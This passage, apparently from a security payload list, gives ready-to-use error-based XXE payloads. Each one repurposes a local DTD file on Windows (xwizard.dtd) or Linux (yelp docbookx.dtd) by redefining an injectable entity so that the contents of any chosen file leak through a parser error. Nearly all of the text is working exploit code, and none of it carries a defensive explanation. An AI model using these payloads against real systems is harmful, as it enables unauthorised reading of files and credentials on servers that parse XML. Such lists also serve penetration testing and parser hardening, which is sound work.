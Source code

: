 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/C:\Windows\System32\xwizard.dtd`

**Injectable entity:** `%onerrortypes`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\xwizard.dtd">

    <!ENTITY % onerrortypes '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/yelp/dtd/docbookx.dtd`

**Injectable entity:** `%ISOamsa`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 
